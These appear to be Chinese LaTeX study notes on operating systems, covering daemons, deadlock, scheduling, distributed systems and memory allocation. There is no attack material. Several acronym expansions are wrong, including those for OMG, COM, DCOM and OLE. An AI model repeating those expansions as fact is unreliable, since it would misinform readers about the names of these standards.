守护进程脱离于终端是为了避免进程在执行过程中的信息在任何终端上显示并且进程也不会被任何终端所产生的终端信息所打断。

守护进程,也就是通常说的Daemon进程,是Linux中的后台服务进程。它是一个生存期较长的进程,通常独立于控制终端并且周期性地执行某种任务或等待处理某些发生的事件。守护进程常常在系统引导装入时启动,在系统关闭时终止。Linux系统有很多守护进程,大多数服务都是通过守护进程实现的,同时,守护进程还能完成许多系统任务,例如,作业规划进程crond、打印进程lqd等(这里的结尾字母d就是Daemon的意思)。

Linux守护进程包括:init(系统守护进程,启动各运行层次的系统服务),keventd(为在内核中运行scheduled function提供进程上下文),kapmd(高级电源管理),kswapd(页面交换守护进程),pdflush(内存达到下限时冲洗脏缓冲区),kupdated(定期冲洗脏缓冲区)等。

常见的服务Deamon包括:
\begin{description}
\item[atd and crond]: Task scheduler daemons
\item[bootparmd and dhcpd]: Dynamic Host Configuration Protocol and Internet Bootstrap Protocol servers
\item[fingerd]: Finger server。Finger是UNIX系统中用于查询用户情况的实用程序(dos系统也包含此命令)。UNIX系统保存了每个用户的详细资料,包括E-mail地址、帐号,在现实生活中的真实姓名、登录时间、有没有未阅读的信件,最后一次阅读E-mail的时间以及外出时的留言等资料。当你用Finger命令查询时,系统会将上述资料一一显示在你有终端或计算机上。
\item[ftpd]: File Transfer Protocol (FTP) server
\item[httpd]: Hypertext Transfer Protocol (HTTP) daemon (web server)
\item[identd]: Provides the identity of a user of a particular TCP connection
\item[inetd and xinetd]: Internet Superserver daemon
\item[named]: A Domain Name System (DNS) server daemon
\item[nfsd]: Network File System (NFS) daemon
\item[ntpd]: Network Time Protocol (NTP) service daemon
\item[portmap, rpcbind]: SunRPC port mapper,将RPC程序号映射为网络端口号。
\item[mysqld, postgresql]: Database server daemons
\item[routed, gated]: Manages routing tables
\item[nfsd, mountd, statd]: Part of typical Network File System implementation。mount协议是NFS协议的一部分。
\item[rwhod]: Maintains the database used by the rwho and ruptime tools
\item[sendmail, postfix]: mail transfer agent daemons
\item[snmpd]: Simple Network Management Protocol Daemon
\item[syslogd]: 为各程序提供系统日志功能。
\item[telnetd and sshd]: Telnet and Secure Shell server daemons
\item[ypbind]: A bind server for Network Information Service ("Yellow Pages")
\item[cupsd]: 打印假脱机进程,处理系统提出的所有打印请求。

\end{description}



守护进程创建过程:
\begin{enumerate}
  \item 创建子进程,父进程退出。在Linux中父进程先于子进程退出会造成子进程成为孤儿进程,而每当系统发现一个孤儿进程时,就会自动由1号进程(init)收养它,这样,原先的子进程就会变成init进程的子进程。
  \item 脱离控制终端、登录会话和进程组。由于在调用了fork函数时,子进程全盘拷贝了父进程的会话期、进程组、控制终端等,虽然父进程退出了,但会话期、进程组、控制终端等并没有改变,因此,这还不是真正意义上的独立开来,而setsid函数能够使进程完全独立出来,从而摆脱其他进程的控制。为禁止子进程重新打开控制终端,可以再次调用fork使进程不再成为会话组长:\verb$if(pid=fork()) exit(0);$。
  \item 改变工作目录。一般需要将工作目录改变到根目录(\verb$chdir("/")$) 。
    对于需要转储核心,写运行日志的进程将工作目录改变到特定目录如/tmp。
  \item 重设文件权限掩码。进程从创建它的父进程那里继承了文件创建掩模。它可能修改守护进程所创建的文件的存取位。为防止这一点,将文件创建掩模清除:\verb$umask(0);$。
  \item 关闭文件描述符。
  \item 设置信号处理。如SIGCHLD信号(非必须)。
\end{enumerate}

以下是APUE给出的守护进程创建实例:
\begin{lstlisting}[language=C]
#include "apue.h"
#include <syslog.h>
#include <fcntl.h>
#include <sys/resource.h>

void
daemonize(const char *cmd)
{
    int                 i, fd0, fd1, fd2;
    pid_t               pid;
    struct rlimit       rl;
    struct sigaction    sa;
    /*
     * Clear file creation mask.
     */
    umask(0);

    /*
     * Get maximum number of file descriptors.
     */
    if (getrlimit(RLIMIT_NOFILE, &rl) < 0)
        err_quit("%s: can't get file limit", cmd);

    /*
     * Become a session leader to lose controlling TTY.
     */
    if ((pid = fork()) < 0)
        err_quit("%s: can't fork", cmd);
    else if (pid != 0) /* parent */
        exit(0);
        
    setsid();

    /*
     * Ensure future opens won't allocate controlling TTYs.
     */
    sa.sa_handler = SIG_IGN;
    sigemptyset(&sa.sa_mask);
    sa.sa_flags = 0;
    if (sigaction(SIGHUP, &sa, NULL) < 0)
        err_quit("%s: can't ignore SIGHUP");
    if ((pid = fork()) < 0)
        err_quit("%s: can't fork", cmd);
    else if (pid != 0) /* parent */
        exit(0);

    /*
     * Change the current working directory to the root so
     * we won't prevent file systems from being unmounted.
     */
    if (chdir("/") < 0)
        err_quit("%s: can't change directory to /");

    /*
     * Close all open file descriptors.
     */
    if (rl.rlim_max == RLIM_INFINITY)
        rl.rlim_max = 1024;
    for (i = 0; i < rl.rlim_max; i++)
        close(i);

    /*
     * Attach file descriptors 0, 1, and 2 to /dev/null.
     */
    fd0 = open("/dev/null", O_RDWR);
    fd1 = dup(0);
    fd2 = dup(0);

    /*
     * Initialize the log file.
     */
    openlog(cmd, LOG_CONS, LOG_DAEMON);
    if (fd0 != 0 || fd1 != 1 || fd2 != 2) {
        syslog(LOG_ERR, "unexpected file descriptors %d %d %d",
          fd0, fd1, fd2);
        exit(1);
    }
}


    
\end{lstlisting}

%!Mode:: "TeX:UTF-8"
\section{死锁}


死锁产生的现场:当A进程P S2信号量而B进程P S1信号量时就会产生死锁,因为S2信号量需要B进程释放,而S1信号量需要A进程释放,因此两个进程都在等相互的资源,造成死锁。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/deadlock.png}
	\caption{死锁示例}
	\label{fig:deadlock}
	\end{center}
\end{figure}

死锁产生的条件:
\begin{itemize}
\item  
互斥条件:进程要求对所分配的资源进行排它性控制,即在一段时间内某资源仅为一进程所占用。(信号量s1 s2为互斥的信号量,只能被一个进程占用)
\item  
请求和保持(部分分配,占有申请):已持有资源的进程可以请求新资源(A进程在获取s2阻塞时,一直占用s1)
\item  
不可剥夺条件:进程已获得的资源在未使用完之前,不能剥夺,只能在使用完时由自己释放。(s1只能由A进程释放,s2只能由B进程释放)
\item  
环路等待条件:在发生死锁时,必然存在一个进程--资源的环形链。(A B 进程都是环形链路)
\end{itemize}

为避免死锁,可以从上述后三个条件入手,而第一个互斥条件是无法被破坏的\cite{pibible}。

银行家算法(Banker's Algorithm)是一个避免死锁(Deadlock)的著名算法,是由Edsger Dijkstra 在1965年为T.H.E系统设计的一种避免死锁产生的算法。它以银行借贷系统的分配策略为基础,判断并保证系统的安全运行。

如果所有过程有可能完成执行(终止),则一个状态(如上述范例)被认为是安全的。由于系统无法知道什么时候一个过程将终止,或者之后它需要多少资源,系统假定所有进程将最终试图获取其声明的最大资源并在不久之后终止。在大多数情况下,这是一个合理的假设,因为系统不是特别关注每个进程运行了多久(至少不是从避免死锁的角度)。此外,如果一个进程终止前没有获取其它能获取的最多的资源,它只是让系统更容易处理。


基于这一假设,该算法通过尝试寻找允许每个进程获得的最大资源并结束(把资源返还给系统)的进程请求的一个理想集合,来决定一个状态是否是安全的。不存在这个集合的状态都是不安全的。如果一个资源请求无法被满足,则驳回。如果该请求key被满足,但导致系统离开了安全状态,则该请求不被受理,即延缓执行或驳回。

%!Mode:: "TeX:UTF-8"
 
\section{外设}


\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Kernel/LinuxDriverInf.png}
	\caption{Linux外设接口模型}
	\label{fig:LinuxDriverInf}
	\end{center}
\end{figure}

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.4\paperwidth]{Pictures/Kernel/kernelComponentForBlockDeviceOp.png}
	\caption{与块设备操作相关的内核组件}
	\label{fig:kernelComponentForBlockDeviceOp}
	\end{center}
\end{figure}

在对块设备进行I/O操作时,图 \ref{fig:kernelComponentForBlockDeviceOp}中的映射层将”文件偏移量,读写长度“数值对映射为若干组连续的磁盘逻辑块,必要时借助文件系统(读取inode)。
通用块层对每组连续的块发起BIO操作。
内核中用inode结构表示索引节点,可以是文件,也可以是目录。inode(可理解为ext2 inode)对应于物理磁盘上的具体对象。


\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.15\paperwidth]{Pictures/Kernel/VirtualFileSystem.png}
	\caption{VFS在copy操作中的作用}
	\label{fig:VirtualFileSystem}
	\end{center}
\end{figure}


\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.4\paperwidth]{Pictures/Kernel/LinuxProcessAndVFS.png}
	\caption{进程与VFS的交互}
	\label{fig:LinuxProcessAndVFS}
	\end{center}
\end{figure}

\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Kernel/LinuxFdArrayInFileStruct.png}
	\caption{file\_struct中的fd数组}
	\label{fig:LinuxFdArrayInFileStruct}
	\end{center}
\end{figure}


\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.6\paperwidth]{Pictures/Kernel/BlockDeviceDescriptors.png}
	\caption{块设备描述符}
	\label{fig:BlockDeviceDescriptors}
	\end{center}
\end{figure}













\clearpage


%!Mode:: "TeX:UTF-8"
\section{分布式系统}

分布式计算技术是一门计算机科学,它研究如何把一个需要非常巨大的计算能力才能解决的问题分成许多小的部分,然后把这些部分分配给许多计算机进行处理,最后把这些计算结果综合起来得到最终的结果。
共享稀有资源和平衡负载是计算机分布式计算的核心思想之一。

在一个分布式系统中,一组独立的计算机展现给用户的是一个统一的整体,就好像是一个系统似的。系统拥有多种通用的物理和逻辑资源,可以动态的分配任务,分散的物理和逻辑资源通过计算机网络实现信息交换。系统中存在一个以全局的方式管理计算机资源的分布式操作系统。通常,对用户来说,分布式系统只有一个模型或范型。在操作系统之上有一层软件中间件(middleware)负责实现这个模型。一个著名的分布式系统的例子是万维网(World Wide Web),在万维网中,所有的一切看起来就好像是一个文档(Web页面)一样。

分布式软件系统(Distributed Software Systems)是支持分布式处理的软件系统,是在由通信网络互联的多处理机体系结构上执行任务的系统。它包括分布式操作系统、分布式程序设计语言及其编译(解释)系统、分布式文件系统和分布式数据库系统等。

\subsection{CORBA}
CORBA (Common Object Request Broker Architecture) 是在1992年由OMG(Open Management Group) 组织提出的软件构建标准。
那时的分布式应用环境都采用Client/Server架构,CORBA的应用很大程度的提高了分布式应用软件的开发效率。

\subsection{DCOM}
当时的另一种分布式系统开发工具是Microsoft的DCOM(Distributed Common Object Model)。Microsoft为了使在Windows平台上开发的各种应用软件产品的功能能够在运行时(Runtime)相互调用(比如在Microsoft Word中直接编辑Excel文件),实现了OLE(Linked and Embedded Object)技术,后来这个技术衍生为COM(Common Object Model)。

\subsection{J2EE}
随着Internet的普及和网络服务(Web Services)的广泛应用, Browser/Server架构的模式逐渐体现出它的优势。 于是,Sun公司在其Java技术的基础上推出了应用于B/S架构的J2EE的开发和应用平台;Microsoft也在其DCOM技术的基础上推出了主要面向B/S应用的.NET开发和应用平台。

J2EE是一套全然不同于传统应用开发的技术架构,包含许多组件,主要可简化且规范应用系统的开发与部署,进而提高可移植性、安全与再用价值。

J2EE核心是一组技术规范与指南,其中所包含的各类组件、服务架构及技术层次,均有共同的标准及规格,让各种依循J2EE架构的不同平台之间,存在良好的兼容性,解决过去企业后端使用的信息产品彼此之间无法兼容,企业内部或外部难以互通的窘境。

J2EE组件和“标准的” Java类的不同点在于:它被装配在一个J2EE应用中,具有固定的格式并遵守J2EE规范,由J2EE服务器对其进行管理。J2EE规范是这样定义J2EE组件的:客户端应用程序和applet是运行在客户端的组件;Java Servlet和Java Server Pages (JSP) 是运行在服务器端的Web组件;Enterprise Java Bean (E JB )组件是运行在服务器端的业务组件。

\subsection{Hadoop}
Hadoop是一个分布式系统基础架构,由Apache基金会所开发。用户可以在不了解分布式底层细节的情况下,开发分布式程序。充分利用集群的威力进行高速运算和存储。
Hadoop实现了一个分布式文件系统(Hadoop Distributed File System),简称HDFS。HDFS有高容错性的特点,并且设计用来部署在低廉的(low-cost)硬件上;而且它提供高吞吐量(high throughput)来访问应用程序的数据,适合那些有着超大数据集(large data set)的应用程序。HDFS放宽了(relax)POSIX的要求,可以以流的形式访问(streaming access)文件系统中的数据。
Hadoop的框架最核心的设计就是:HDFS和MapReduce。HDFS为海量的数据提供了存储,则MapReduce为海量的数据提供了计算。






%!Mode:: "TeX:UTF-8"
\section{调度}

\subsection{作业调度}
作业调度,也称批处理,简称 BP(batch processing),是指在计算机上无须人工干预而执行系列程序的作业。
批处理任务无须人工交互,所有的输入数据预先设置于程序或命令行参数中。这是不同于需要用户输入数据的交互程序的概念。
批处理的发展远胜当初的大型电脑上的应用,现在也常用于UNIX环境,用CRON和at机制来安排复杂的工作程序。微软的DOS和Windows系统也有类似的命令描述语言,称为批处理文件。
批处理是相对于实时处理,在公共交通中,公共小巴时常都是用批处理的方法运输乘客的。
办公室内的激光打印机,也是以批处理的方法,应付多于一个客端用户的打印指令,避免打印输出混乱。

Shortest job next (SJN), 又称 Shortest Job First (SJF) 或 Shortest Process Next (SPN), 选择具有最短执行时间的作业来执行,为非抢占式调度算法,
而 Shortest remaining time 为其抢占式变种。

\textbf{Generalized processor sharing (GPS)} is a service policy for multiple classes of customers where service capacity is shared between customer classes according to some fixed weights. Service is shared between all non-empty classes in the same ratio as the weight factors (positive values for each service class). In processor scheduling, generalized processor sharing is "an idealized scheduling algorithm that achieves perfect fairness. All practical schedulers approximate GPS and use it as a reference to measure fairness."Generalized processor sharing assumes that traffic is fluid (infinitesimal packet sizes), and can be arbitrarily split. There are several service disciplines which track the performance of GPS quite closely such as weighted fair queuing (WFQ)[4] and known as packet-by-packet generalized processor sharing (PGPS).

\textbf{Weighted round robin (WRR)} is a scheduling discipline. Each packet flow or connection has its own packet queue in a network interface card. It is the simplest approximation of generalized processor sharing (GPS). While GPS serves infinitesimal amounts of data from each nonempty queue, WRR serves a number of packets for each nonempty queue.

速率单调(RM)算法是C. L. LIU(刘炯朗)和J. W. LAYLAND提出的单处理机实时周期性任务静态优先级调度算法。
该算法的按照任务的速率分配优先级。速率越大,优先级越高;速率越小,优先级越低。
These operating systems are generally preemptive and have deterministic guarantees with regard to response times. Rate monotonic analysis is used in conjunction with those systems to provide scheduling guarantees for a particular application.

\textbf{Highest Response Ratio Next (HRRN)} scheduling is a non-preemptive discipline, similar to Shortest Job Next (SJN), in which the priority of each job is dependent on its estimated run time, and also the amount of time it has spent waiting. Jobs gain higher priority the longer they wait, which prevents indefinite postponement (process starvation). In fact, the jobs that have spent a long time waiting compete against those estimated to have short run times.
\begin{equation}
\mathrm{priority}=\frac{\mathrm{waitingTime}}{\mathrm{estimated Running Time}} + 1
\end{equation}

基于优先数调度算法(HPF):每一个作业规定一个表示该作业优先级别的整数,当需要将新的作业由输入井调入内存处理时,优先选择优先数最高的作业。


\subsection{I/O调度}
Linux的I/O调度算法又称电梯算法,主要有:
\begin{description}
    \item[CFQ(完全公平排队)] 在最新的内核版本和发行版中,都选择CFQ做为默认的I/O调度器,对于通用的服务器也是最好的选择。	CFQ实现了一种QoS的IO调度算法。该算法为每一个进程分配一个时间窗口,在该时间窗口内,允许进程发出IO请求。通过时间窗口在不同进程间的移动,保证了对于所有进程而言都有公平的发出IO请求的机会。同时CFQ也实现了进程的优先级控制,可保证高优先级进程可以获得更长的时间窗口。
	CFQ为每个进程/线程,单独创建一个队列来管理该进程所产生的请求,也就是说每个进程一个队列,各队列之间的调度使用时间片来调度。
    \item[NOOP] NOOP调度器十分简单,其只拥有一个等待队列,每当来一个新的请求,仅仅是按先来先处理的思路将请求插入到等待队列的尾部。
其应用环境主要有以下两种:一是物理设备中包含了自己的I/O调度程序,比如SCSI的TCQ;二是寻道时间可以忽略不计的设备,比如SSD等。
    \item[Deadline(截止时间调度程序)] DEADLINE调度算法主要针对I/O请求的延时而设计,每个I/O请求都被附加一个最后执行期限。
	该算法维护两类队列,一是按照扇区排序的读写请求队列;二是按照过期时间排序的读写请求队列。
	如果当前没有I/O请求过期,则会按照扇区顺序执行I/O请求;
	如果发现过期的I/O请求,则会处理按照过期时间排序的队列,直到所有过期请求都被发射为止。
	在处理请求时,该算法会优先考虑读请求。
	当系统中存在的I/O请求进程数量比较少时,与CFQ算法相比,DEADLINE算法可以提供较高的I/O吞吐率。
\item[AS(预料I/O调度程序)]CFQ和DEADLINE考虑的焦点在于满足零散IO请求上。对于连续的IO请求,比如顺序读,并没有做优化。为了满足随机IO和顺序IO混合的场 景,Linux还支持ANTICIPATORY调度算法。ANTICIPATORY的在DEADLINE的基础上,为每个读IO都设置了6ms的等待时间 窗口。如果在这6ms内OS收到了相邻位置的读IO请求,就可以立即满足。
\end{description}

在传统的SAS盘上,CFQ、DEADLINE、ANTICIPATORY都是不错的选择;对于专属的数据库服务器,DEADLINE的吞吐量和响应时间都表现良好。
然而在新兴的固态硬盘比如SSD、Fusion IO上,最简单的NOOP反而可能是最好的算法,因为其他三个算法的优化是基于缩短寻道时间的,而固态硬盘没有所谓的寻道时间且IO响应时间非常短。

查看当前系统支持的IO调度算法
\begin{verbatim}
[root@localhost ~]# dmesg | grep -i scheduler
io scheduler noop registered
io scheduler anticipatory registered
io scheduler deadline registered
io scheduler cfq registered (default)
\end{verbatim}


查看当前系统的I/O调度方法:
\begin{verbatim}
cat /sys/block/sda/queue/scheduler
noop anticipatory deadline [cfq]
\end{verbatim}


临地更改I/O调度方法:
\begin{verbatim}
echo noop > /sys/block/sda/queue/scheduler
\end{verbatim}


想永久的更改I/O调度方法,需修改内核引导参数,加入elevator=调度程序名
\begin{verbatim}
vi /boot/grub/menu.lst
更改到如下内容:
kernel /boot/vmlinuz-2.6.18-8.el5 ro root=LABEL=/ elevator=deadline rhgb quiet
\end{verbatim}


\subsection{进程调度}
参考\url{http://blog.csdn.net/zhoudaxia/article/details/7375668}

Ingo Molnar开发了O(1)调度器,在CFS和RSDL之前,这个调度器不仅被Linux2.6采用,还被backport到Linux2.4中,很多商业的发行版本都采用了这个调度器。
每个CPU都有两个进程队列,采用优先级为基础的调度策略。
内核为每个进程计算出一个反映其运行“资格”的权值,然后挑选权值最高的进程投入运行。在运行过程中,当前进程的资格随时间而递减,从而在下一次调度的时候原来资格较低的进程可能就有资格运行了。到所有进程的资格都为零时,就重新计算。
调度程序运行时,要在所有可运行的进程中选择最值得运行的进程。

选择进程的依据主要有task\_struct结构中有以下四项:
调度策略(policy, 取值有SCHED\_OTHER、SCHED\_FIFO 和 SCHED\_RR)、
静态优先级(priority)、
动态优先级(counter,进程剩余的时间片,它的起始值就是priority的值)、以及实时优先级(rt\_priority,实时进程特有的)。
在进程运行过程中,counter不断减少,而priority保持不变,以便在counter变为0的时候(该进程用完了所分配的时间片)对counter重新赋值。


对于实时进程,Linux采用了两种调度策略,即SCHED\_FIFO(先来先服务调度)和SCHED\_RR(时间片轮转调度)。
因为实时进程具有一定程度的紧迫性,所以衡量一个实时进程是否应该运行,Linux采用了一个比较固定的标准。
实时进程的counter只是用来表示该进程的剩余时间片,并不作为衡量它是否值得运行的标准。
SCHED\_FIFO进程会一直运行,直到I/O阻塞或者主动释放CPU,或者是CPU被另一个具有更高rt\_priority的实时进程抢先。
SCHED\_OTHER为普通进程,采用动态优先调度策略。只要系统中有一个实时进程在运行,则任何SCHED\_OTHER进程都不能在任何CPU运行。
 
从某种意义上讲,所有位于当前队列的任务都将被执行并且都将被移到“过期”队列之中(实时进程则例外,交互性强的进程也可能例外)。
当这种事情发生时,情况就会有所变化,队列就会被进行切换,原来的“过期”队列成为当前队列,而空的当前队列也就变成了过期队列。

schedule()函数是完成进程调度的主要函数,并完成进程切换的工作,
它在/kernel/sched.c 中的定义如下:
\begin{lstlisting}[language=C++]
{
  ...
      int idx;
      ...
      preempt_disable();//关闭内核抢占
      ...
      //快速定位优先级最高(值最小)的非空就绪进程链表,每个优先级对应位图上的一格
      idx = sched_find_first_bit(array -> bitmap);
      queue = array -> queue + idx;//
      next = list_entry(queue -> next, task_t, run_list);//
      ...
      prev = context_switch(rq, prev, next);//
      ...
}
\end{lstlisting}
Linux2.4 调度系统在所有就绪进程的时间片都耗完以后在调度器中一次性重新计算,其中重算是用for循环相当耗时。
Linux2.6为每个CPU保留 active和expired两个优先级数组,active 数组中包含了有剩余时间片的任务,expired数组中包含了所有用完时间片的任务。当一个任务的时间片用完了就会重新计算其时间片,并插入到expired队列中,当 active队列中所有进程用完时间片时,只需交换指向active和expired队列的指针即可。此交换是实现O(1)算法的核心,由schedule()中以下程序来实现:
\begin{lstlisting}[language=C++]
      array = rq ->active;
      if (unlikely(!array->nr_active)) {
	  rq -> active = rq -> expired;
	  rq -> expired = array;
	  array = rq ->active;
	  ...
      }
\end{lstlisting}



Nice值为用户空间的优先级设置值,范围是-20到+19,映射到priority的100到139这段空间。
而priority的0到99是给实时进程用的,这也意味着nice只能设置非实时进程的优先级。
拥有Nice值越大的进程的实际优先级越小(即Nice值为+19的进程优先级最小,为-20的进程优先级最大),默认的Nice值是0。由于Nice值是静态优先级,所以一经设定,就不会再被内核修改,直到被重新设定。
Nice值只起干预CPU时间分配的作用,实际中的细节,由动态优先级决定。
可用nice命令设置程序的Nice值,也可用renice来修改该值。top的r键(renice)也可修改该值。
“Nice值”这个名称来自英文单词nice,意思为友好。Nice值越高,这个进程越“友好”,就会让给其他进程越多的时间。

通常状况下,一个系统中所有的进程被分配到的时间片长短并不是相等的,尽管初始时间片基本相等(在Linux系统中,初始时间片也不相等,而是各自父进程的一半),系统通过测量进程处于“睡眠”和“正在运行”状态的时间长短来计算每个进程的交互性,交互性(bonus值)和每个进程预设的静态优先级(Nice值)的叠加即是动态优先级,动态优先级按比例缩放就是要分配给那个进程时间片的长短。一般地,为了获得较快的响应速度,交互性强的进程(即趋向于IO消耗型,其bonus值较大)被分配到的时间片要长于交互性弱的(趋向于处理器消耗型)进程。
\begin{verbatim}
dynamic_prio = max (100, min (static_prio - bonus + 5, 139))
\end{verbatim}

  O(1)调度器区分交互式进程和批处理进程的算法与以前虽大有改进,但仍然在很多情况下会失效。
  有一些著名的程序总能让该调度器性能下降,导致交互式进程反应缓慢。
  例如fiftyp.c, thud.c, chew.c, ring-test.c, massive\_intr.c等。而且O(1)调度器对NUMA支持也不完善。
  为了解决这些问题,大量难以维护和阅读的复杂代码被加入Linux2.6.0的调度器模块,虽然很多性能问题因此得到了解决,可是另外一个严重问题始终困扰着许多内核开发者,那就是代码的复杂度问题。
  很多复杂的代码难以管理并且对于纯粹主义者而言未能体现算法的本质。
    为了解决 O(1) 调度器面临的问题以及应对其他外部压力, 需要改变某些东西。这种改变来自Con Kolivas的内核补丁staircase scheduler(楼梯调度算法),以及改进的RSDL(Rotating Staircase Deadline Scheduler)。它为调度器设计提供了一个新的思路。Ingo Molnar在RSDL之后开发了CFS,并最终被2.6.23内核采用。
	它从RSDL/SD中吸取了完全公平的思想,不再跟踪进程的睡眠时间,也不再企图区分交互式进程。
	它将所有的进程都统一对待,这就是公平的含义。CFS的算法和实现都相当简单,众多的测试表明其性能也非常优越。
	与之前的Linux调度器不同,CFS没有将任务维护在链表式的运行队列中,它抛弃了active/expire数组,而是对每个CPU维护一个以时间为顺序的红黑树。
	

\subsection{实时操作系统}

实时操作系统与一般的操作系统相比,最大的特色就是其“实时性”,也就是说,如果有一个任务需要执行,实时操作系统会马上(在较短时间内)执行该任务,不会有较长的延时。这种特性保证了各个任务的及时执行。

衡量一个实时操作系统坚固性的重要指标,是他从接收一个任务,到完成该任务所需的时间,其时间的变化称为抖动。硬实时操作系统比软实时操作系统有更少的抖动。设计实时操作系统的首要目标不是高的吞吐量,而是保证任务在特定时间内完成。硬实时操作系统必须使任务在确定的时间内完成,而软实时操作系统能让绝大多数任务在确定时间内完成。

实时操作系统与一般的操作系统有着不同的调度算法。普通的操作系统的调度器对于线程优先级等方面的处理更加灵活;而实时操作系统追求最小的中断延迟和线程切换延迟。

Linux是作为通用操作系统开发的,其内核在实时处理能力上先天不足,部分网络开发社区将其经过改造能在一定程度上成为实时操作系统。

常用的RTOS包括:LynxOS,RTLinux,VxWorks,Windows CE,µC/OS等。








%!Mode:: "TeX:UTF-8"
\section{Glibc的malloc实现}
\label{sec:glibc-malloc}

在程序开发中,堆和栈是最常使用的两个内存区,在Linux下栈分为用户栈和内核栈,内核栈具有固定大小,而用户栈可以通过ulimit来设定,最大8M。

Glibc分配算法思想:
\begin{itemize}
\item 小于等于64字节:用pool算法分配
\item 64到512字节之间:在最佳凭配算法分配和pool算法分配中取一种合适的
\item 大于等于512字节:用最佳凭配算法分配
\item 大于等于128K:直接调用OS提供的函数(如mmap)分配
\end{itemize}

\begin{lstlisting}[language=C++]
typedef struct free_list {
  spin_lock_t lock;/* spin lock for mutual exclusion */
  header_t head;/* head of free list for this size */
  #ifdef DEBUG
  int in_use;  /* # mallocs - # frees */
  #endif DEBUG
} *free_list_t;

typedef union header {
  union header *next;
  struct free_list *fl;
} *header_t;

#define MIN_SIZE 8/* minimum block size */
#define NBUCKETS 29

/*block size 8,16,24,...,64*/
static struct free_list malloc_free_list[NBUCKETS];
\end{lstlisting}

内存碎片包括内部碎片和外部碎片。















%!Mode:: "TeX:UTF-8"
 
\section{内核中的内存分配}
\subsection{内存空间}
内核被安装在物理空间的第2个MB处(0x00100000)开始。典型的内核配置让内核能容入3MB空间内。
BIOS会使用第一个MB的某些内存。
启动早期,内核会通过BIOS获取系统中物理内存大小。

进程线性空间前3GB(0x00000000 to 0xbfffffff)可在用户态和内核态下访问, 后1GB(0xc0000000 to 0xffffffff)只能在内核态访问。
PAGE\_OFFSET宏被定义为0xc0000000。

\subsection{kmalloc}
1、  kmalloc()是内核中最常见的内存分配方式,它最终调用伙伴系统的\_\_get\_free\_pages()函数分配,根据传递给这个函数的flags参数,决定这个函数的分配适合什么场合,如果标志是GFP\_KERNEL则仅仅可以用于进程上下文中,如果标志GFP\_ATOMIC则可以用于中断上下文或者持有锁的代码段中。
kmalloc返回的线形地址是直接映射的,而且用连续物理页满足分配请求,且内置了最大请求数(2**5=32页)。
 
2、  kmap()是主要用在高端存储器页框的内核映射中,一般是这么使用的:
使用alloc\_pages()在高端存储器区得到struct page结构,然后调用kmap(struct *page)在内核地址空间PAGE\_OFFSET+896M之后的地址空间中(PKMAP\_BASE到FIXADDR\_STAR)建立永久映射(如果page结构对应的是低端物理内存的页,该函数仅仅返回该页对应的虚拟地址)
kmap()也可能引起睡眠,所以不能用在中断和持有锁的代码中。
不过kmap 只能对一个物理页进行分配,所以尽量少用。
 
3、  vmalloc优先使用高端物理内存,但性能上会打些折扣。
vmalloc分配的物理页不会被交换出去; 
vmalloc返回的虚地址大于(PAGE\_OFFSET + SIZEOF(phys memory) + GAP),为VMALLOC\_START----VMALLOC\_END之间的线形地址; 
vmalloc使用的是vmlist链表,与管理用户进程的vm\_area\_struct要区别,而后者会swapped;
 
4、  使用kmap的原因:
对于高端物理内存(896M之后),并没有和内核地址空间建立一一对应的关系(即虚拟地址=物理地址+PAGE\_OFFSET这样的关系),所以不能使用get\_free\_pages()这样的页分配器进行内存的分配,而必须使用alloc\_pages()这样的伙伴系统算法的接口得到struct *page结构,然后将其映射到内核地址空间,注意这个时候映射后的地址并非和物理地址相差PAGE\_OFFSET.

\subsection{slab分配器}

在内核编程中,可能经常会有一些数据结构需要反复使用和释放,按照通常的思路,可能是使用kmalloc和kfree来实现。
但是这种方式效率不高,Linux为我们提供了更加高效的方法——Slab高速缓存管理器。




























%!Mode:: "TeX:UTF-8"
\section{内存管理}
\subsection{虚拟内存}
虚拟内存是一种将内存组织(memory organization)同物理硬件解耦的方法。
产生的作用包括:访问保护,内存共享,屏蔽物理组织(屏蔽主存与二级存储直接的交换,注意两级存储都叫memory,虚拟内存实际上是virtual memory)。

\subsection{内存池}
malloc和operator new等动态内存分配接口存在外部碎片等问题,考虑到性能原因,不适合用于实时系统。
更有效的方式是使用内存池分配。
有许多实时操作系统采用了内存池,IBM 的 Transaction Processing Facility 便是其中一个例子。
Nginx等系统中,内存池这一术语指的是region,即一组变长分配被一次释放。

内存池的分配函数,可以不仅仅返回地址,而是返回一个handle。比如handle实现为一个无符号整型,可切割为池号、块号和版本号。版本号用于检测内存块的重复释放。
多个内存池可以防止树状结构中。

内存池的缺点是产生内部碎片,尤其对大块而言浪费显著。此外,内存池还必须针对具体应用进行tune。
相对malloc,内存池的优点是:诸多同类型对象所需的内存,只需调用一次malloc和一次free(chunking技术);针对同一类型的频繁分配释放,有常数操作时间;不需占用额外空间的管理信息(对于小块而言管理信息意味着利用率低效)。

\subsection{伙伴系统}
伙伴块分配技术:
